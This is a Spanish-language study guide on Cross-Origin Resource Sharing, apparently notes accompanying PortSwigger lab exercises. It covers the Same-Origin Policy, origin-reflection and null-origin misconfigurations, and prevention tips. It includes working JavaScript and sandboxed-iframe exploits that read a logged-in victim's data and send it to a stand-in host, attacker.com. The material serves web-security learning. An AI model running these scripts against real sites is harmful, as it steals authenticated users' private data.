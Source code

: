 # Cross-Origin Resource Sharing

## 📂 Introducción

CORS (Cross-Origin Resource Sharing) es un mecanismo implementado por los navegadores modernos que permite el acceso controlado a recursos ubicados en un dominio distinto al de la página que realiza la solicitud. Esta guía, basada en el contenido de [PortSwigger Research](https://portswigger.net/research/exploiting-cors-misconfigurations-for-bitcoins-and-bounties), explica qué es CORS, cómo funciona, ejemplos de configuraciones vulnerables y cómo prevenir ataques relacionados.

## ❓ ¿Qué es CORS?

CORS es un protocolo basado en cabeceras HTTP que permite a un servidor indicar qué orígenes (dominios) externos pueden acceder a sus recursos. Su propósito es **relajar la Same-Origin Policy (SOP)**, una política de seguridad que impide que un sitio web lea contenido de otro sitio diferente.

> ⚠ Importante: CORS **no es una defensa contra ataques cross-origin como CSRF**.

## 🔐 Same-Origin Policy (SOP)

La SOP impide que scripts cargados desde un origen accedan a datos de otro origen diferente (diferente dominio, puerto o protocolo). Esta restricción protege la privacidad del usuario al evitar fugas de información entre sitios.

### Ejemplo:

Un script cargado desde `https://ejemplo.com` **no podrá acceder** al contenido de `https://api.ejemplo.com` sin una política CORS adecuada.

## ⚖️ Flexibilización controlada mediante CORS

CORS permite que el servidor indique explícitamente qué orígenes están autorizados para acceder a sus recursos, usando cabeceras como:

* `Access-Control-Allow-Origin`
* `Access-Control-Allow-Credentials`
* `Access-Control-Allow-Methods`
* `Access-Control-Allow-Headers`

El navegador realiza una "negociación" previa (preflight) cuando se trata de solicitudes complejas, utilizando el método `OPTIONS` para consultar las reglas del servidor.

## ⚡ Ejemplo de ataque por mala configuración de CORS

### Caso: servidor refleja el header `Origin`

**Solicitud maliciosa:**

```http
GET /sensitive-data HTTP/1.1
Host: vulnerable-website.com
Origin: https://attacker.com
Cookie: sessionid=...
```

**Respuesta del servidor vulnerable:**

```http
HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://attacker.com
Access-Control-Allow-Credentials: true
```

**Exploit en JavaScript:**

```javascript
var req = new XMLHttpRequest();
req.onload = function() {
    location = 'https://attacker.com/log?data=' + this.responseText;
};
req.open('GET', 'https://vulnerable-website.com/sensitive-data', true);
req.withCredentials = true;
req.send();
```

```javascript
// Explicación detallada del script CORS con robo de datos

// Este script utiliza XMLHttpRequest para hacer una solicitud entre sitios (cross-origin request)
// a una web vulnerable con CORS mal configurado.

var req = new XMLHttpRequest();

// req.onload:
// Esta función se ejecuta cuando la respuesta del servidor vulnerable llega.
req.onload = function() {
    // 🔒 Envío de datos robados:
    // Una vez que el navegador recibe la respuesta, se redirige a un dominio malicioso
    // incluyendo los datos sensibles como parámetro en la URL.
    location = 'https://attacker.com/log?data=' + this.responseText;
};

// Configuramos la solicitud para apuntar a la información sensible
req.open('GET', 'https://vulnerable-website.com/sensitive-data', true);

// withCredentials:
// Esto indica que la solicitud debe incluir cookies de sesión, lo cual es necesario
// para acceder a datos autenticados en el sitio vulnerable.
req.withCredentials = true;

// ⏳ Enviamos la solicitud
req.send();

/*
 Resumen del flujo:
1. El navegador del usuario carga esta página (en el dominio del atacante).
2. El script hace una solicitud GET a un sitio vulnerable con CORS.
3. Si el sitio vulnerable permite origen cruzado (y Access-Control-Allow-Credentials: true),
   la respuesta se recibe en el navegador.
4. El script redirige al usuario a attacker.com incluyendo los datos robados en la URL.

Este tipo de ataque es posible sólo si:
- La web vulnerable permite el origen cruzado de forma laxa.
- Se permite el uso de cookies mediante withCredentials + Access-Control-Allow-Credentials: true.
*/
```


Este código permite al atacante **leer información sensible** desde el navegador de la víctima autenticada.

[Lab: CORS vulnerability with basic origin reflection](1_CORS_vulnerability_with_basic_origin_reflection.md)  

![Practitioner](https://img.shields.io/badge/level-Apprentice-green) 

---

## 🚨 Otras configuraciones inseguras

### 🔒 1. Errores en el parseo de dominios

* Whitelist mal implementada: permitir cualquier dominio que termine en `example.com` puede permitir `attackerexample.com`
* O permitir cualquier dominio que comience con `example.com` permite `example.com.attacker.com`

### 🔒 2. Whitelist que acepta `null` como origen

Navegadores pueden enviar `Origin: null` en ciertos escenarios:

* `file://` URLs
* iframes con sandbox
* Redirecciones entre sitios

**Respuesta vulnerable:**

```http
Access-Control-Allow-Origin: null
Access-Control-Allow-Credentials: true
```

**Exploit con iframe sandbox:**

```html
<iframe sandbox="allow-scripts allow-forms" src="data:text/html,<script>
var req = new XMLHttpRequest();
req.onload = function() {
  location = 'https://attacker.com/log?data=' + this.responseText;
};
req.open('GET', 'https://vulnerable.com/data', true);
req.withCredentials = true;
req.send();
</script>"></iframe>
```

[Lab: CORS vulnerability with trusted null origin](2_CORS_vulnerability_with_trusted_null_origin.md)  

![Practitioner](https://img.shields.io/badge/level-Apprentice-green) 

---

## Consejos para prevenir ataques CORS

* **Nunca reflejar el ********`Origin`******** directamente** en `Access-Control-Allow-Origin`.
* Usar una **whitelist validada con exactitud** (sin regex permisivos).
* \*\*Nunca permitir \*\***`Access-Control-Allow-Credentials: true`** junto con `*` como origen.
* Bloquear `Origin: null` salvo que sea explícitamente necesario.
* Monitorear las cabeceras de respuesta y realizar auditorías regulares.

## 🔗 Enlaces de interés

* [CORS official MDN documentation](https://developer.mozilla.org/en-US/docs/Web/HTTP/CORS)
* [Same-Origin Policy explicada](https://developer.mozilla.org/en-US/docs/Web/Security/Same-origin_policy)
* [CORS vulnerability research by PortSwigger](https://portswigger.net/research/exploiting-cors-misconfigurations-for-bitcoins-and-bounties)
* [CORS misconfig checker](https://github.com/s0md3v/Corsy)

---

